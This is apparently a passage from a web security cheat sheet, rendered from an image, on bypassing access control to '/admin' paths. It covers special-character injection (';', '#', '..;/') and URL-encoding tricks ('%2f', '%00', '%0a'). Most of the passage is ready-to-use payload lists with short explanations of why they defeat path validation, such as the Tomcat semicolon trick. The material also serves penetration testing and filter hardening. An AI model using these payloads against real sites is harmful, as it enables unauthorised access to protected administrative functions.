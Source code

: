 ## Why it Works
Some frameworks only check the path portion before “?”, ignoring or incorrectly handling query parameters.





## 4. Special Character Injection
Use special characters or uncommon path separators (;, #, *, ~, etc.):

```
url.com/admin/# 
url.com/admin/#/
url.com/admin/* 
url.com/admin~ 
url.com/admin/°/
url.com/admin/-
url.com/admin/&
url.com/admin(…)
url.com/admin!… 
url.com/admin@… 
url.com/admin#
url.com/..;/admin
url.com/.;/admin
url.com/.;/admin/
```
## Why it Works

Certain characters may break or bypass path validation routines. Semicolons (;) especially are an old trick in Tomcat/Apache contexts.






## 5. Encoding & Mixed Encoding
Properly or improperly encoded paths can dodge filters that only match unencoded strings. Combine multiple layers of encoding or partial encodings:

## Common Encodings

```
url.com/admin/%20
url.com/admin/%2f
url.com/admin/%09
url.com/admin/%0a
url.com/admin/%0d
url.com/admin/%25
url.com/admin/%3f
url.com/admin/%26
url.com/admin/%00
```
